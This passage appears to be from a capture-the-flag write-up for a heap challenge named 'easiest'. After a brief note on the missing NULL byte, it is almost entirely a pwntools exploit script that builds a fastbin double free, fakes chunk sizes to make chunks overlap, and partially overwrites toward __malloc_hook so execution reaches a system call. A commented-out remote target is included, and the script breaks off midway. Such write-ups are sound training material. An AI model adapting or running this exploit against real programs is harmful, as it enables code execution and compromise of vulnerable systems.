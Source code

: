 If we our input length is exactly the same as `_len` (the length we specified to apply malloc), it will not append NULL byte. So, NULL byte will not interfere our overwrite now.

Exploit script:
```python
from pwn import *

get = 0
i = 0

def exp():
  global get
  global i
  get = 1
  p = process("./easiest")
  context.log_level = "DEBUG"
  #gdb.attach(p)
  #p = remote("39.96.9.148", 9999)

  def _add(idx, length, content):
    p.sendlineafter("delete", "1")
    p.sendlineafter(":", str(idx))
    p.sendlineafter(":", str(length))
    p.sendlineafter(":", content)

  def _free(idx):
    p.sendlineafter("delete", "2")
    p.sendlineafter(":", str(idx))

  call_ptr = p64(0x400946) # address that executes system

# Prepare two fastbins(A and B) to double free
  _add(0, 0x18, "A" * 16 + p64(0x21)) # chunk A
# We can edit the size from 0x100 to 0x170 to merege chunk A with following chunk C
  _add(10, 0xf8, "C") # chunk C
# This chunk is for double free to malloc hook
  _add(9, 0x68, "D") # chunk D
  _free(9)
# We add cthe second fastbin at the final step to 
# prevent fake unsorted bin mergin to top chunk chunk
  _add(1, 0x18, "B" * 16 + p64(0x21))

# prepare fastbin double free
  _free(0)
  _free(1)
  _free(0)
# This step requires bruteforce when ASLR is enabled
# It can return a chunk that is orginally at the end of chunk A
# And we edit it to create overlapping chunks in chunk C
  _add(0, 0x2, "\x18\x00")
  _add(1, 0x1, "E")
  _add(2, 0x1, "F")

# EOF Error might happen here 
  try:
# Edit chunk C to fake size to overlap with chunk D
    _add(3, 8, p64(0x171))
# Put it to unsorted bin
    _free(10)
# Write main_arena address to the bk of chunk C
    _add(10, 0xf8, "a")
# Free again, and apply to overwrite content to the address of malloc hook
    _free(10)
    _add(0, 0xf8 + 0x8 + 0x2, "\x00" * 0xf8 + p64(0x71) + "\xed\x1a")
```